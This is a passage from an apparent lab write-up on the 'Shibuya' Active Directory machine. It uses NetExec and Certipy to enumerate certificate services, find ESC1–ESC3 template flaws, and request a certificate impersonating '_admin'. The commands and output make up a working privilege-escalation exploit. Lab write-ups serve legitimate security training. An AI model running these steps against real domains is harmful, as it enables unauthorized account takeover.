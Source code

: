After poking around a bit, we decide to check ADCS using NetExec.

```bash
➜  Shibuya proxychains -q netexec ldap shibuya.vl -u nigel.mills -p <REDACTED>-M adcs
SMB         10.10.64.180    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
LDAP        10.10.64.180    389    AWSJPDC0522      [+] shibuya.vl\nigel.mills:<REDACTED>
ADCS        10.10.64.180    389    AWSJPDC0522      [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.64.180    389    AWSJPDC0522      Found PKI Enrollment Server: AWSJPDC0522.shibuya.vl
ADCS        10.10.64.180    389    AWSJPDC0522      Found CN: shibuya-AWSJPDC0522-CA
```

Then we use Certipy to verify it.

```bash
➜  Shibuya proxychains -q certipy-ad find -username nigel.mills -password <REDACTED> -vulnerable -dc-ip 10.10.64.180 -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.64.180:636 - ssl
[+] Default path: DC=shibuya,DC=vl
[+] Configuration path: CN=Configuration,DC=shibuya,DC=vl
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
 <SNIP>
    [!] Vulnerabilities
      ESC1                              : 'SHIBUYA.VL\\t1_admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set
```

Let’s send the request.

```bash
➜  Shibuya proxychains -q certipy-ad req -u Nigel.Mills@shibuya.vl -p <REDACTED>-ca shibuya-AWSJPDC0522-CA -target AWSJPDC0522.shibuya.vl -target-ip 10.10.64.180 -template ShibuyaWeb -upn '_admin@shibuya.vl' -key-size 4096 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to '_admin.pfx'
```
